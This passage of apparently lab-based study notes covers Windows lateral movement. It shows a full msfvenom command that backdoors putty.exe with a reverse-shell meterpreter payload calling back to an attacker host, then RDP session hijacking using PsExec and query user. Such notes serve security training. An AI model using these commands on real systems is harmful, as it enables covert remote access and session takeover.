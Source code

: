 - If the shared file is a Windows binary, say `putty.exe`, you can ***download it from the share*** and use `msfvenom` to inject a backdoor into it.
- The binary will still work as usual but execute an additional payload silently.
- To create a backdoored `putty.exe` , we can use the following command:

```bash
$ msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

- The resulting `puttyX.exe` will execute a reverse_tcp meterpreter payload `without` the user noticing it.
- Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the `exploit/multi/handler` module from Metasploit.

		- There are two references for this.
		- One from Sektor7 topic and one from THM using Metasploit to automate backdooring.
		- Pick the one you prefer.


### RDP Hijacking

- When an administrator uses `Remote Desktop` to connect to a machine and ***closes the RDP client instead of logging off***, his session will remain open on the server indefinitely.

		- Always log off your RDP session!

- If you have `SYSTEM` privileges on Windows Server 2016 and earlier, you can take over any existing RDP session **WITHOUT** requiring a password.


- If we have administrator-level access, we can get `SYSTEM` by any method of our preference.
- For now, we will be using `psexec` to do so.
- First, let's run a `cmd.exe` as administrator:

![](/assets/img/Pasted image 20230209094421.png)


- From there, run `PsExec64.exe` (available at `C:\tools\`):

```powershell
> PsExec64.exe -s cmd.exe
```

- To list the existing sessions on a server, you can use the following command:

```cmd
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                      3  Disc            .  4/6/2022 6:51 AM
```

	Breakdown:
	- If we were currently connected via RDP using the administrator user, our SESSIONNAME would be "rdp-tcp#6".
	- We can also see that a user named "luke" has left a session open with "id=3"
	- Any session with a "Disc" state has been left open by the user and isn't being used at the moment.
	- While you can take over active sessions as well, the legitimate user will be forced out of his session when you do, which could be noticed by them.
